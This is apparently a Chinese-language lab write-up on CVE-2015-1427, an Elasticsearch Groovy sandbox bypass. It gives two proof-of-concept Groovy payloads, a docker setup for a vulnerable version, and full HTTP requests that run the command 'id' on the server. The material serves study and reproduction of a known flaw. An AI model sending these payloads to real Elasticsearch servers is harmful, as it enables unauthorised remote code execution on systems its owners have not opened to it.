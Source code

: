 # ElasticSearch Groovy 沙盒绕过与远程代码执行漏洞（CVE-2015-1427）

ElasticSearch是一个分布式的RESTful搜索和分析引擎。

在ElasticSearch 1.3.8和1.4.3之前的版本中，Groovy脚本引擎存在一个漏洞，攻击者可以绕过沙盒保护并在服务器上执行任意代码。

在修复[CVE-2014-3120](../CVE-2014-3120/)漏洞后，ElasticSearch将默认的动态脚本语言更改为Groovy，并增加了沙盒保护。但是，动态语言执行功能仍然默认启用。本漏洞包含两个方面：

1. 沙盒绕过
2. Groovy代码执行漏洞

ElasticSearch支持使用"沙盒化"的Groovy语言作为动态脚本引擎。然而，沙盒的实现并不完善。研究人员发现了两种执行命令的方法：

1. Lupin的方法：使用Java反射绕过沙盒
2. Tang3的方法：直接使用Groovy语言特性执行命令，无需使用Java

基于这两种方法，我们有两个不同的POC。

Java沙盒绕过方法：

```groovy
java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("id").getText()
```

Groovy直接命令执行方法：

```groovy
def command='id';def res=command.execute().text;res
```

参考链接：
- <http://jordan-wright.com/blog/2015/03/08/elasticsearch-rce-vulnerability-cve-2015-1427/>
- <https://github.com/XiphosResearch/exploits>
- <http://cb.drops.wiki/drops/papers-5107.html>
- <http://cb.drops.wiki/drops/papers-5142.html>

## 漏洞复现

执行以下命令启动一个1.4.2版本的ElasticSearch服务器：

```
docker compose up -d
```

由于查询时需要索引中至少有一条数据，首先发送以下请求添加数据：

```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "test"
}
```

然后发送包含payload的请求来执行任意命令：

```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
Content-Length: 156

{"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"}}}
```

命令执行结果将在响应中返回：

![](1.png)
